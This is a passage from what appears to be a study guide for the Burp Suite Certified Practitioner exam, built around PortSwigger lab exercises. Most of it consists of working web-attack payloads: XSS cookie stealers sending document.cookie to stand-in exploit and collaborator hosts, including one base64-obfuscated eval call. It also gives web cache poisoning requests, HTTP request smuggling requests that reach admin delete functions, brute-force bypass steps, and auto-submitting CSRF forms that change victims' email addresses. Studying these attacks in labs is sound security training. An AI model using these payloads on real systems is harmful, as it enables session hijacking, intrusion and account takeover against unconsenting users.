"-eval(atob("ZmV0Y2goYGh0dHBzOi8vNHo0YWdlMHlwYjV3b2I5cDYxeXBwdTEzdnUxbHBiZDAub2FzdGlmeS5jb20vP2pzb25jPWAgKyB3aW5kb3dbImRvY3VtZW50Il1bImNvb2tpZSJdKQ=="))-"
```  

>Hosting the `IFRAME` on exploit server, give a **error** message refused to connect to target. Instead host the payload on exploit server between `<script>` tags.  

```html
<script>
location = "https://TARGET.net/?SearchTerm=%22%2d%65%76%61%6c%28%61%74%6f%62%28%22%5a%6d%56%30%59%32%67%6f%59%47%68%30%64%48%42%7a%4f%69%38%76%4e%48%6f%30%59%57%64%6c%4d%48%6c%77%59%6a%56%33%62%32%49%35%63%44%59%78%65%58%42%77%64%54%45%7a%64%6e%55%78%62%48%42%69%5a%44%41%75%62%32%46%7a%64%47%6c%6d%65%53%35%6a%62%32%30%76%50%32%70%7a%62%32%35%6a%50%57%41%67%4b%79%42%33%61%57%35%6b%62%33%64%62%49%6d%52%76%59%33%56%74%5a%57%35%30%49%6c%31%62%49%6d%4e%76%62%32%74%70%5a%53%4a%64%4b%51%3d%3d%22%29%29%2d%22"
</script>
```  

  

>**NOTE:** `Deliver exploit to victim` few times if the active user do not send HTTP request to collaborator. Replace the current cookie value with the stolen cookie to impersonate the active user and move on to [Stage 2 of the Practice Exam](#blind-time-delay).  

[PortSwigger Practice Exam - Stage 1 - Foothold](https://portswigger.net/web-security/certification/takepracticeexam/index.html)  
  
### Stored XSS

>Use the following sample code to ***identify*** stored XSS. If stored input is redirecting victim that click on the links, it send request to exploit server.  

```HTML

<script src="https://EXPLOIT.net/script"></script>
<video src="https://EXPLOIT.net/video"></video>
```  
  
>Below log entries show the requests made to the exploit server, and from the logs we can ***identify*** that `/img` and `/video` of the above tags were allowed on the application and made requests when accessed.  

  

>Cross site Scripting saved in Blog post comment. This Cookie Stealer payload then send the victim session cookie to the exploit server logs.  

```html

```  

>Product and Store lookup  

```html
?productId=1&storeId="></select>
```  

#### Stored XSS Blog Post  

>Stored XSS Blog post cookie stealer sending document cookie to exploit server.  

```JavaScript
<script>
document.write('');
</script>
```  

>Below target has a stored XSS vulnerability in the blog comments function. Steal a victim user session cookie that views the comments after they are posted, and then use their cookie to do impersonation.  

  

>**Fetch API** JavaScript Cookie Stealer payload in Blog post comment.  

```JavaScript
<script>
fetch('https://exploit.net', {
method: 'POST',
mode: 'no-cors',
body:document.cookie
});
</script>
```  

[PortSwigger Lab: Exploiting cross-site scripting to steal cookies](https://portswigger.net/web-security/cross-site-scripting/exploiting/lab-stealing-cookies)  

#### Upgrade stored self-XSS  

>Blog comment with **Stored self-XSS**, upgrading the payload to steal victim information from DOM. The function **edit content** reflect the input in the `<script>` tag. The CSRF token for the **write comment** is same as the **edit content** functions. Below payload use **write comment** function to make the victim create a blog entry on their on blog with our malicious content. The `a` character is added to escape the `#` hash character from the initial application `source code`. The below `source code` in the blog entry is full exploit to steal victim info.  

```html
<button form=comment-form formaction="/edit" id=share-button>Click Button</button>
<input form=comment-form name=content value='<meta http-equiv="refresh" content="1; URL=/edit" />'>
<input form=comment-form name=tags value='a");alert(document.getElementsByClassName("navbar-brand")[0].innerText)//'>
```  

>This target is exploited by constructing an HTML injection that clobbers a variable named `share_button`, see `source code` below and uses HTML code above. The content is reflected on the page, then using this reflection enable page redirection to victim `/edit` page with the use of the `meta http-equiv` tag to refresh page after 1 second result in redirection.  

  

```
https://challenge-1222.intigriti.io/blog/unique-guid-value-abc123?share=1
```  

>Deliver Exploit, by Sending url that reference the above blog entry to the victim will trigger XSS as them.  

[intigriti - Self-XSS upgrade - Solution to December 22 XSS Challenge](https://youtu.be/FowbZ8IlU7o)  

>Alternative exploit using HTML injection in the Edit Content blog entry page, ***identified*** using [XSS Resources CSP check](#xss-resources).  

```
<base href="https://Exploit.net">
```  

>Host JS file on Exploit server as `static/js/bootstrap.bundle.min.js`, with content:  

```
alert(document.getElementsByClassName("navbar-brand")[0].innerText)
```  

>The modified PortSwigger lab payload assign the `document.location` function to the variable `defaultAvatar` next time page is loaded, because site uses DOMPurify that allows the use of `cid:` protocol that do not URLencode double quotes.  

```
<a id=defaultAvatar><a id=defaultAvatar name=avatar href="cid:&quot;onerror=document.location=`https://COLLABORATOR.com/?clobber=`+document.cookie//">
```  

[PortSwigger Lab: Exploiting DOM clobbering to enable XSS](https://portswigger.net/web-security/dom-based/dom-clobbering/lab-dom-xss-exploiting-dom-clobbering)  

### Stored DOM XSS  

>In the JavaScript `source code`, included script `resources/js/loadCommentsWithVulnerableEscapeHtml.js` we ***identify*** the `html.replace()` function inside the custom `loadComments` function. Testing payloads we see the function only replaces the first occurrence of `<>`.  

  

```html
<>
```  

>Above payload is stored and any user visiting the comment blog will result in their session cookie being stolen and send to collaborator.  

  

>PortSwigger Lab payload: `<>`.  

[PortSwigger Lab: Stored DOM XSS](https://portswigger.net/web-security/cross-site-scripting/dom-based/lab-dom-xss-stored)  
  
-----

## Web Cache Poison  

[Unkeyed header](#unkeyed-header)  
[Unkeyed Utm_content](#unkeyed-utm_content)  
[Cloaking utm_content](#cloaking-utm_content)  
[Poison ambiguous request](#poison-ambiguous-request)  
[Cache Poison multiple headers](#cache-poison-multiple-headers)  

### Unkeyed header  

>Target use **tracking.js** JavaScript, and is vulnerable to **```X-Forwarded-Host```** or **```X-Host```** header redirecting path, allowing the stealing of cookie by poisoning cache.
>***Identify*** the web cache headers in response and the tracking.js script in the page source code. Exploit the vulnerability by hosting JavaScript and injecting the header to poison the cache of the target to redirect a victim visiting.  

  
  
```html
X-Forwarded-Host: EXPLOIT.net
X-Host: EXPLOIT.net
```  

  

>Hosting on the exploit server, injecting the **```X-Forwarded-Host```** header in request, and poison the cache until victim hits poison cache.  

```
/resources/js/tracking.js
```  
  
  
  
>Body send session cookie to collaboration service.  
  
```javascript
document.location='https://collaboration.net/?cookies='+document.cookie;
```  

>Keep **Poisoning** the web cache of target by resending request with ```X-Forwarded-Host``` header.  

  

[PortSwigger Lab: Web cache poisoning with an unkeyed header](https://portswigger.net/web-security/web-cache-poisoning/exploiting-design-flaws/lab-web-cache-poisoning-with-an-unkeyed-header)  

>Youtube video showing above lab payload on exploit server modified to steal victim cookie when victim hits a cached entry on back-end server. The payload is the above JavaScript.  

[YouTube: Web cache poisoning with unkeyed header - cookie stealer](https://youtu.be/eNmF8fq-ur8)  
  
[Param Miner Extension to identify web cache vulnerabilities](https://portswigger.net/bappstore/17d2949a985c4b7ca092728dba871943)  
  
### Unkeyed utm_content  

>Target is vulnerable to web cache poisoning because it excludes a certain parameter from the cache key. Param Miner's "Guess GET parameters" feature will ***identify*** the parameter as utm_content.  

  
  
```
GET /?utm_content='/><script>document.location="https://Collaborator.com?c="+document.cookie</script>
```  

>Above payload is cached and the victim visiting target cookie send to Burp collaborator.  

  

[PortSwigger Lab: Web cache poisoning via an unkeyed query parameter](https://portswigger.net/web-security/web-cache-poisoning/exploiting-implementation-flaws/lab-web-cache-poisoning-unkeyed-param)  

### Cloaking utm_content  

>Param Miner extension doing a `Bulk scan > Rails parameter cloaking scan` will ***identify*** the vulnerability automatically. Manually it can be identified by adding `;` to append another parameter to `utm_content`, the cache treats this as a single parameter. This means that the extra parameter is also excluded from the cache key.  
>The `source code` for `/js/geolocate.js?callback=setCountryCookie` is called on every page and execute callback function.  

>The `callback` parameter is keyed, and thus cannot poison cache for victim user, but by combine duplicate parameter with `utm_content` it then excluded and cache can be poisoned.  

```
GET /js/geolocate.js?callback=setCountryCookie&utm_content=fuzzer;callback=EVILFunction
```  

  

>Cache Cloaking Cookie Capturing payload below, keep poising cache until victim hits stored cache.  

```
GET /js/geolocate.js?callback=setCountryCookie&utm_content=fuzzer;callback=document.location='https://COLLABORATOR.com?nuts='%2bdocument.cookie%3b HTTP/2
```  

>Below is [Url Decoded](https://www.urldecoder.org/) payload.  

```
GET/js/geolocate.js?callback=setCountryCookie&utm_content=fuzzer;callback=document.location='https://COLLABORATOR.com?nuts='+document.cookie; HTTP/2
```  

[PortSwigger Lab: Parameter cloaking](https://portswigger.net/web-security/web-cache-poisoning/exploiting-implementation-flaws/lab-web-cache-poisoning-param-cloaking)  
  
### Poison ambiguous request  

>Adding a second **Host** header with an exploit server, this ***identify*** a ambiguous cache vulnerability and routing your request. Notice that the exploit server in second **Host** header is reflected in an absolute URL used to import a script from ```/resources/js/tracking.js```. 

```html
Host: TARGET.net
Host: exploit.net
```

>On the exploit server set a file as same path target calls to ```/resources/js/tracking.js```, this will contain the payload. Place the JavaScript payload code below to perform a cookie stealer.  

```
document.location='https://Collaborator.com/?CacheCookies='+document.cookie;
```  

  

[PortSwigger Lab: Web cache poisoning via ambiguous requests](https://portswigger.net/web-security/host-header/exploiting/lab-host-header-web-cache-poisoning-via-ambiguous-requests)  

### Cache Poison multiple headers  

>Identify that cache hit headers in responses, then test if the target support ```X-Forwarded-Host``` or ```X-Forwarded-Scheme``` headers. These headers can allow for the stealing of victim session cookie.  
  
>Identify if adding the two **Forwarded** headers to the GET ```/resources/js/tracking.js``` request, result in a change to the location response header. This ***identify*** positive poisoning of the cache with multiple headers.  

```html
GET /resources/js/tracking.js?cb=123 HTTP/2
Host: TARGET.net
X-Forwarded-Host: EXPLOIT.net
X-Forwarded-Scheme: nothttps
```  

  

>On the exploit server change the file path to ```/resources/js/tracking.js``` and the update the poison request ```X-Forwarded-Host: EXPLOIT.net``` header. Place the payload on exploit server body.  

```html
document.location='https://Collaborator.com/?poisoncache='+document.cookie;
```  

>Remove the ```cb=123``` cache **buster**, and then poison the cache until the victim is redirected to the exploit server payload tracking.js to steal session cookie.  

[PortSwigger Lab: Web cache poisoning with multiple headers](https://portswigger.net/web-security/web-cache-poisoning/exploiting-design-flaws/lab-web-cache-poisoning-with-multiple-headers)  

### Duplicate Parameter Fat Poison  

>Identify that the application is vulnerable to duplicate parameter poisoning, by adding a second parameter with same name and different value the response reflected the injected value.  

  

```
GET /js/geolocate.js?callback=setCountryCookie&callback=FUZZERFunction; HTTP/2
```  

>The function that is called in the response by passing in a duplicate callback parameter is reflected. Notice in response the cache key is still derived from the original callback parameter in the GET request line.  

  

>Not able to make cookie stealer payload working......  

[PortSwigger Lab: Web cache poisoning via a fat GET request](https://portswigger.net/web-security/web-cache-poisoning/exploiting-implementation-flaws/lab-web-cache-poisoning-fat-get)  
  
-----

## Host Headers  

[Spoof IP Address](#spoof-ip-address)  
[HOST Connection State](#host-connection-state)  
[Host Routing based SSRF](#host-routing-based-ssrf)  
[SSRF via flawed Host request parsing](#absolute-get-url--host-ssrf)  

### Spoof IP Address  

>***Identify*** that altered HOST headers are supported, which allows you to spoof your IP address and bypass the IP-based brute-force protection or redirection attacks to do password reset poisoning.  
  
>Include the below `X- ` headers and change the username parameter on the password reset request to `Carlos` before sending the request.  
>In the BSCP exam if you used this exploit then it means you have not used a vulnerability that require user interaction and allow you to use an interaction vulnerability to gain access to stage 3 as admin by using exploit server `Deliver exploit to victim` function.  

```html
X-Forwarded-Host: EXPLOIT.net
X-Host: EXPLOIT.net
X-Forwarded-Server: EXPLOIT.net
```  

>Check the exploit server log to obtain the reset link to the victim username.  
  
  

[PortSwigger Lab: Password reset poisoning via middle-ware](https://portswigger.net/web-security/authentication/other-mechanisms/lab-password-reset-poisoning-via-middleware)  

### HOST Connection State  

>Target is vulnerable to **routing-based SSRF** via the Host header, but validate connection state of the first request. Sending grouped request in sequence using **single connection** and setting the connection header to **keep-alive**, bypass host header validation and enable SSRF exploit of local server.  

```html
GET / HTTP/1.1
Host: TARGET.net
Cookie: session=ValueOfSessionCookie
Content-Length: 48
Content-Type: text/plain;charset=UTF-8
Connection: keep-alive
```  

>Next request is the second tab in group sequence of requests.  

```html
POST /admin/delete HTTP/1.1
Host: localhost
Cookie: _lab=YOUR-LAB-COOKIE; session=YOUR-SESSION-COOKIE
Content-Type: x-www-form-urlencoded
Content-Length: 53

csrf=TheCSRFTokenValue&username=carlos
```  

>Observe that the second request has successfully accessed the admin panel.  

  

[PortSwigger Lab: Host validation bypass via connection state attack](https://portswigger.net/web-security/host-header/exploiting/lab-host-header-host-validation-bypass-via-connection-state-attack)  
  
-----

## HTTP Request Smuggling  

>Architecture with front-end and back-end server, and front-end or back-end does not support chunked encoding **(HEX)** or content-length **(Decimal)**. Bypass security controls to retrieve the victim's request and use the victim user's cookies to access their account.  

[TE.CL dualchunk - Transfer-encoding obfuscated](#tecl-dualchunk---transfer-encoding-obfuscated)    
[TE.CL multiCase - Admin blocked](#tecl-multiCase---admin-blocked)  
[CL.TE multiCase - Admin blocked](#clte-multicase---admin-blocked)  
[CL.TE multiCase - Content-Length Cookie Stealer](#clte-multicase---content-length)  
[CL.TE multiCase - User-Agent Cookie Stealer](#clte-multicase---user-agent-cookie-stealer)  
[HTTP/2 smuggling - CRLF injection Cookie Stealer](#http2-smuggling-via-crlf-injection)  
[HTTP/2 TE - Admin Cookie Stealer](#http2-te-desync-v10a-h2path)  

### TE.CL dualchunk - Transfer-encoding obfuscated  

>If Duplicate header names are allowed, and the vulnerability is detected as **dualchunk**, then add an additional header with name and value = **Transfer-encoding: cow**.  Use **obfuscation** techniques with second TE.  

```
Transfer-Encoding: xchunked

Transfer-Encoding : chunked

Transfer-Encoding: chunked
Transfer-Encoding: x

Transfer-Encoding:[tab]chunked

[space]Transfer-Encoding: chunked

X: X[\n]Transfer-Encoding: chunked

Transfer-Encoding
: chunked

Transfer-encoding: identity
Transfer-encoding: cow
```  

>Some servers that do support the `Transfer-Encoding` header can be induced not to process it if the header is **obfuscation** in some way.  

>On Repeater menu ensure that the **"Update Content-Length"** option is unchecked.  

```html
POST / HTTP/1.1
Host: TARGET.net
Content-Type: application/x-www-form-urlencoded
Content-length: 4
Transfer-Encoding: chunked
Transfer-encoding: identity

e6
GET /post?postId=4 HTTP/1.1
User-Agent: a"/><script>document.location='http://COLLABORATOR.com/?c='+document.cookie;</script>
Content-Type: application/x-www-form-urlencoded
Content-Length: 15

x=1
0\r\n  
\r\n
  
```  

  

>**Note:** You need to include the trailing sequence **\r\n\r\n** following the final **0**.  

[PortSwigger Lab: HTTP request smuggling, obfuscating the Transfer-Encoding (TE) header](https://portswigger.net/web-security/request-smuggling/lab-obfuscating-te-header)  
  
>Wonder how often this scenario occur that hacker is able to steal visiting user request via HTTP Sync vulnerability?  
  
### TE.CL multiCase - Admin blocked  

>When attempting to access `/admin` portal URL path, we get the filter message, `Path /admin is blocked`. The HTTP Request Smuggler scanner ***identify*** the vulnerability as `TE.CL multiCase (delayed response)`. **Note:** because back-end server doesn't support chunked encoding, turn off `Update Content-Length` in Repeater menu.  

>After disable auto content length update, changing to `HTTP/1.1`, then send below request twice, adding the second header `Content-Length: 15` prevent the HOST header conflicting with first request.  
>**Note:** need to include the trailing sequence `\r\n\r\n` following the final `0`.  
  
>Manually fixing the length fields in request smuggling attacks, requires each chunk size in bytes expressed in **HEXADECIMAL**, and **Content-Length** specifies the length of the message body in **bytes**. Chunks are followed by a **newline**, then followed by the chunk contents. The message is terminated with a chunk of size ZERO.  

```html
POST / HTTP/1.1
Host: TARGET.net
Content-Type: application/x-www-form-urlencoded
Content-length: 4
Transfer-Encoding: chunked

71
POST /admin HTTP/1.1
Host: localhost
Content-Type: application/x-www-form-urlencoded
Content-Length: 15

x=1
0

```  

>Calculating TE.CL (Transfer-Encoding / Content-Length) smuggle request length in **HEXADECIMAL** and the payload is between the hex length of **71** and the terminating **ZERO**, not including the ZERO AND not the preceding `\r\n` on line above ZERO, as part of length. The initial POST request **content-length** is manually set.  
  
  

>When sending the `/admin/delete?username=carlos` to delete user, the transfer encoding hex length is changed from `71` to `88` hexadecimal value to include extra smuggled request size.  

[PortSwigger Lab: Exploiting HTTP request smuggling to bypass front-end security controls, TE.CL vulnerability](https://portswigger.net/web-security/request-smuggling/exploiting/lab-bypass-front-end-controls-te-cl)  

### CL.TE multiCase - Admin blocked  

>When attempting to access `/admin` portal URL path, we get the filter message, `Path /admin is blocked`. The HTTP Request Smuggler scanner ***identify*** the vulnerability as `CL.TE multiCase (delayed response)`.  

>To access the admin panel, send below request twice, adding the second header ```Content-Length: 10``` prevent the HOST header conflicting with first request.  

```html
POST / HTTP/1.1
Host: TARGET.net
Cookie: session=waIS6yM79uaaNUO4MnmxejP2i6sZWo2E
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Content-Type: application/x-www-form-urlencoded
Content-Length: 116
tRANSFER-ENCODING: chunked

0

GET /admin HTTP/1.1
Host: localhost
Content-Type: application/x-www-form-urlencoded
Content-Length: 10

x=
```  

>On the second time the request is send the admin portal is returned in response.  

  

[PortSwigger Lab: Exploiting HTTP request smuggling to bypass front-end security controls, CL.TE vulnerability](https://portswigger.net/web-security/request-smuggling/exploiting/lab-bypass-front-end-controls-cl-te)  

### CL.TE multiCase - Content-Length

>Large Content-Length to capture victim requests. Sending a POST request with smuggled request but the content length is longer than the real length and when victim browse their cookie session value is posted to blob comment. Increased the comment-post request's Content-Length to **798**, then smuggle POST request to the back-end server.

```html
POST / HTTP/1.1
Host: TARGET.net
Content-Type: application/x-www-form-urlencoded
Content-Length: 242
Transfer-Encoding: chunked

0

POST /post/comment HTTP/1.1
Content-Type: application/x-www-form-urlencoded
Content-Length: 798
Cookie: session=HackerCurrentCookieValue

csrf=ValidCSRFCookieValue&postId=8&name=c&email=c%40c.c&website=&comment=c
```  
  
  

>No new line at end of the smuggled POST request above^^.  

>View the blog **post** to see if there's a comment containing a user's request. Note that once the victim user browses the target website, then only will the attack be successful. Copy the user's Cookie header from the blog post comment, and use the cookie to access victim's account.  
  
  

[PortSwigger Lab: Exploiting HTTP request smuggling to capture other users' requests](https://portswigger.net/web-security/request-smuggling/exploiting/lab-capture-other-users-requests)  
  
### CL.TE multiCase - User-Agent Cookie Stealer  
  
>***Identify*** the UserAgent value is stored in the GET request loading the blog comment form, and stored in **User-Agent** hidden value. Exploiting HTTP request smuggling to deliver reflected XSS using **User-Agent** value that is then placed in a smuggled request.  

>Basic Cross Site Scripting Payload escaping out of HTML document.  

```JavaScript
 "/><script>alert(1)</script>
```

>COOKIE STEALER Payload.  

```JavaScript
a"/><script>document.location='http://Collaborator.com/?cookiestealer='+document.cookie;</script>
```  

>Smuggle this XSS request to the back-end server, so that it exploits the next visitor. Place the XSS cookie stealer in **User-Agent** header.  

```html
POST / HTTP/1.1
Host: TARGET.net
Content-Length: 237
Content-Type: application/x-www-form-urlencoded
Transfer-Encoding: chunked

0

GET /post?postId=4 HTTP/1.1
User-Agent: a"/><script>document.location='http://COLLABORATOR.com/?Hack='+document.cookie;</script>
Content-Type: application/x-www-form-urlencoded
Content-Length: 5

x=1
```  

  

>Check the PortSwigger Collaborator Request received from victim browsing target.  
  
  

[PortSwigger Lab: Exploiting HTTP request smuggling to deliver reflected XSS](https://portswigger.net/web-security/request-smuggling/exploiting/lab-deliver-reflected-xss)  
  
### HTTP/2 smuggling via CRLF injection  

>Target is vulnerable to request smuggling because the front-end server **downgrades HTTP/2** requests and fails to adequately sanitize incoming headers. Exploitation is by use of an HTTP/2-exclusive request smuggling vector to steal a victims session cookie and gain access to user's account.  

>***Identify*** possible vulnerability when Target reflect previous and recent search history based on cookie, by removing cookie it is noticed that your search history is reset, confirming that it's tied to your session cookie.  

  

>Expand the Inspector's Request Attributes section and change the protocol to HTTP/2, then append arbitrary header ```foo``` with value ```bar```, follow with the sequence ```\r\n```, then followed by the ```Transfer-Encoding: chunked```, by pressing **shift+ENTER**.  

  

>Note: enable the **Allow HTTP/2 ALPN override** option and change the body of HTTP/2 request to below POST request.  

```html
0

POST / HTTP/1.1
Host: YOUR-LAB-ID.web-security-academy.net
Cookie: session=HACKER-SESSION-COOKIE
Content-Length: 800

search=nutty
```  
  
  
  
[PortSwigger Lab: HTTP/2 request smuggling via CRLF injection](https://portswigger.net/web-security/request-smuggling/advanced/lab-request-smuggling-h2-request-smuggling-via-crlf-injection)  
  
[Youtube demo HTTP/2 request smuggling via CRLF injection](https://youtu.be/E-bnCGzl7Rk)  

### HTTP/2 TE desync v10a h2path

>Target is vulnerable to request smuggling because the front-end server downgrades HTTP/2 requests even if they have an ambiguous length. Steal the  session cookie, of the admin visiting the target. The Burp extension, **HTTP Request Smuggler** will ***identify*** the vulnerability as HTTP/2 TE desync v10a (H2.TE) vulnerability.  

  

>Note: Switch to **HTTP/2** in the inspector request attributes and Enable the **Allow HTTP/2 ALPN override** option in repeat menu.  

```html
POST /x HTTP/2
Host: TARGET.net
Transfer-Encoding: chunked

0

GET /x HTTP/1.1
Host: TARGET.web-security-academy.net\r\n
\r\n
```  

>Note: Paths in both POST and GET requests points to non-existent endpoints. This help to ***identify*** when not getting a 404 response, the response is from victim user captured request. **Remember** to terminate the smuggled request properly by including the sequence ```\r\n\r\n``` after the Host header.  

  

>Copy stolen session cookie value into new **http/2** GET request to the admin panel.  

```
GET /admin HTTP/2
Host: TARGET.web-security-academy.net
Cookie: session=VictimAdminSessionCookieValue
Cache-Control: max-age=0
Sec-Ch-Ua: "Chromium";v="109", "Not_A Brand";v="99"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "Linux"
```  

  

[PortSwigger Lab: Response queue poisoning via H2.TE request smuggling](https://portswigger.net/web-security/request-smuggling/advanced/response-queue-poisoning/lab-request-smuggling-h2-response-queue-poisoning-via-te-request-smuggling)  
  
-----

## Brute Force  

[Stay-Logged-in](#stay-logged-in)  
[Stay-logged-in Offline Crack](#stay-logged-in-offline-crack)  
[Brute Force Protected Login](#brute-force-protected-login)  
[Subtly Invalid Login](#subtly-invalid-login)  

### Stay-Logged-in  

>Login option with a stay-logged-in check-box result in Cookie value containing the password of the user logged in and is vulnerable to brute-forcing.  

  

>The exploit steps below plus the Intruder Payload processing rules in order and including the GREP option in sequence before starting the attack.  
  
1. Logout as current user.  
2. Send the most recent GET /my-account request to Burp Intruder.  
3. Select the cookie: ```stay-logged-in``` as injection position.  
4. Hash: ```MD5```  
5. Add prefix: ```carlos:```  
6. Encode: ```Base64-encode```  
7. Add **GREP** under settings tab, to check for the string in the response ```Update email``` indicating successfully logged in attack.  
  
  

[PortSwigger Lab: Brute-forcing a stay-logged-in cookie](https://portswigger.net/web-security/authentication/other-mechanisms/lab-brute-forcing-a-stay-logged-in-cookie)  
  
### Stay-logged-in Offline Crack  
  
>The blog application comment function is vulnerable to [stored XSS](#stored-xss), use the below payload in blog comment to send the session cookie of Carlos to the exploit server.  

```
<script>
document.location='https://EXPLOIT.net/StealCookie='+document.cookie
</script>
```  
  
>Base64 decode the ```stay-logged-in``` cookie value and use an online **MD5** hash crack station database.  

  

[PortSwigger Lab: Offline password cracking](https://portswigger.net/web-security/authentication/other-mechanisms/lab-offline-password-cracking)  

### Brute Force Protected Login  

>***Identified*** brute force protection on login when back-end enforce 30 minute ban, resulting in **IP blocked** after too many invalid login attempts. Testing ```X-Forwarded-For:``` header result in bypass of brute force protection. Observing the response time with long invalid password, mean we can use **Pitchfork** technique to ***identify*** first valid usernames with random long password and then rerun intruder with **Pitchfork**, set each payload position attack iterates through all sets simultaneously.  

[Burp Lab Username, Password and directory fuzzing Word lists](https://github.com/botesjuan/Burp-Suite-Certified-Practitioner-Exam-Study/tree/main/wordlists)  

>Payload position 1 on IP address for ```X-Forwarded-For:``` and position 2 on username with a long password to see the **response time delay** in attack columns window.  

```
X-Forwarded-For: 12.13.14.15
```

  

>Repeat above **Pitchfork** intruder attack on the password field and then ***identify*** valid password from the status column with 302 result.  

[PortSwigger Lab: Username enumeration via response timing](https://portswigger.net/web-security/authentication/password-based/lab-username-enumeration-via-response-timing)  
  
### Subtly Invalid Login  

>***Identify*** that the login page & password reset is not protected by brute force attack, and no IP block or time-out enforced for invalid username or password.  

>Tip for the BSCP Exam, there is sometimes another user with weak password that can be brute forced. Carlos is not always the account to target to give a foothold access in stage 1.  

  

>Notice on the Intruder attack column for the GREP value, ```Invalid username or password.``` the one response message for a failed username attack do not contain full stop period at the end. Repeat the attack with this ***identified*** username, and **Sniper** attack the password field to ***identify*** ```302``` response for valid login.  
  
  

>In the BSCP exam ***lookout*** for other messages returned that are different and disclose valid accounts on the application and allow the brute force ***identified*** of account passwords, such as example on the [refresh password reset](#refresh-password-broken-logic) function.  
  
>Once valid username identified from different response message, the perform [brute force](#brute-force) using Burp Intruder on the password.  

[PortSwigger Lab: Username enumeration via subtly different responses](https://portswigger.net/web-security/authentication/password-based/lab-username-enumeration-via-subtly-different-responses)  

>Another scenario to identify valid username on the WEB APP is to provide list of usernames on login and one invalid password value. In the Intruder attack results one response will contain message `Incorrect password`.  
>Intruder attack injection position, `username=§invalid-username§&password=SomeStupidLongCrazyWrongSecretPassword123456789`.  

[PortSwigger Lab: Username enumeration via different responses](https://portswigger.net/web-security/authentication/password-based/lab-username-enumeration-via-different-responses)  
  
-----

## Authentication  

[Account Registration](#account-registration)  
[Auth Token bypass Macro](#auth-token-bypass-macro)  
  
### Account Registration  

>Business logic flaw in the account registration feature allow for gaining foothold as target user role access. [Content Discovery](#content-discovery) find the path ```/admin```, message state the Admin interface is only available if logged in as a **DontWannaCry** user.  

  

>Creating email with more that 200 character before the ```@``` symbol is then truncated to 255 characters. This ***identify*** the vulnerability in the account registration page logic **flaw**. In the email below the ```m``` at the end of ```@dontwannacry.com``` is character 255 exactly.  

```
very-long-strings-so-very-long-string-so-very-long-string-so-very-long-string-so-very-long-string-so-very-long-string-so-very-long-string-so-very-long-string-so-very-long-string-so-very-long-string-so-very-long-string-so-very-long-strings@dontwannacry.com.exploit-0afe007b03a34169c10b8fc501510091.exploit-server.net
```  
  
  

[PortSwigger Lab: Inconsistent handling of exceptional input](https://portswigger.net/web-security/logic-flaws/examples/lab-logic-flaws-inconsistent-handling-of-exceptional-input)  

### Auth Token bypass Macro  

>If the authentication login is protected against brute force by using random token that is used on every login POST, a Burp Macro can be used to bypass protection.  
  
>Create Burp Macro  
1. Open Proxy settings and select **sessions** under Project choices.  
2. Scroll down to ```Macros```, and add new macro.  
3. Select **request** from the list to use for the value to be used.  
4. click ```Configure item``` and add custom parameter location to extract.  
5. Click **OK** to return to Sessions under Project choices.  
6. Add a Session handling **rule**, and the editor dialogue opens.  
7. In the dialogue, go to the "Scope" tab. 
8. Under scope for the session handling rule editor, **check** Target, Intruder, and Repeater.  
9. Still under "URL Scope", select ```Include all URLs```.  
10. Close Settings.  
  
  

[PortSwigger Lab: Infinite money logic flaw - show how to create Burp Macro](https://portswigger.net/web-security/logic-flaws/examples/lab-logic-flaws-infinite-money)  
  
-----

# Privilege Escalation  
  
## CSRF Account Takeover  

[OAuth](#oauth)  
[Referer Validation CSRF](#referer-validation-csrf)  
[Referer Header Present](#referer-header-present)  
[LastSearchTerm](#lastsearchterm)  
[CSRF duplicated in cookie](#csrf-duplicated-in-cookie)  
[CSRF Token Present](#csrf-token-present)  
[Is Logged In](#is-logged-in)  
[CSRF No Defences](#csrf-no-defences)  
[SameSite Strict bypass](#samesite-strict-bypass)  
[SameSite Lax bypass](#samesite-lax-bypass)  
  
>Cross-Site Request Forgery vulnerability allows an attacker to force users to perform actions that they did not intend to perform. This can enable attacker to change victim email address and use password reset to take over the account.  
  
### OAuth  

>oAuth linking exploit server hosting iframe, then deliver to victim, forcing user to update code linked.  

  

>Intercepted the GET /oauth-linking?code=[...]. send to repeat to save code. **Drop** the request. Important to ensure that the code is not used and, remains valid. Save on exploit server an iframe in which the ```src``` attribute points to the URL you just copied.  

```html
<iframe src="https://TARGET.net/oauth-linking?code=STOLEN-CODE"></iframe>
```  

[PortSwigger Lab: Forced OAuth profile linking](https://portswigger.net/web-security/oauth/lab-oauth-forced-oauth-profile-linking)  
  
### Referer Validation CSRF  

>***Identify*** the change email function is vulnerable to CSRF by observing when the **Referer** header value is changed the response give message, `Invalid referer header`, and the email change is accepted when the referrer value contains the expected target domain somewhere in the value.  

  

>Adding original domain of target and append `history.pushState('', '', '/?TARGET.net');` to the **Referer header** in the form of a query string, allow the change email to update.  

```html
Referrer-Policy: unsafe-url
```  

>**Note:** Unlike the normal Referer header spelling, the word **"referrer"** must be spelled correctly in the above `head` section of the exploit server.  

  

>Create a CSRF proof of concept exploit and host it on the exploit server. Edit the JavaScript so that the third argument of the **history.pushState()** function includes a query string with target URL.  

```html
<html>
  <!-- CSRF PoC -  CSRF with broken Referer validation -->
  <body>
	<script>
		history.pushState('', '', '/?TARGET.net');
	</script>
    <form action="https://TARGET.net/my-account/change-email" method="POST">
      <input type="hidden" name="email" value="hacker&#64;exploit&#45;net" />
      <input type="submit" value="Submit request" />
    </form>
    <script>
      document.forms[0].submit();
    </script>
  </body>
</html>
```  

>When above exploit payload is delivered to victim, the CSRF POC payload changes the victim email to **hacker@exploit.net**, because the Referer header contained target in value. In ***BSCP*** exam take not of your ```hacker@exploit``` server email address to use in account takeover.  

[PortSwigger Lab: CSRF with broken Referer validation](https://portswigger.net/web-security/csrf/bypassing-referer-based-defenses/lab-referer-validation-broken)  
  
### Referer Header Present  

>In the update email request when changing the `referer` header the response indicate `Invalid referer header`, ***identifying*** CSRF vulnerability. Using the `<meta name="referrer" content="no-referrer">` as part of the exploit server CSRF PoC this control can be bypassed. This instruct the exploit server to Deliver Exploit to victim without `referer` header.  

```html
<html>
  <!-- CSRF PoC - CSRF where Referer validation depends on header being present -->
  <body>
<meta name="referrer" content="no-referrer">
    <form action="https://TARGET.net/my-account/change-email" method="POST">
      <input type="hidden" name="email" value="administrator&#64;EXPLOIT&#46;NET" />
      <input type="submit" value="Submit request" />
    </form>
    <script>
history.pushState('', '', '/');
      document.forms[0].submit();
    </script>
  </body>
</html>
```  

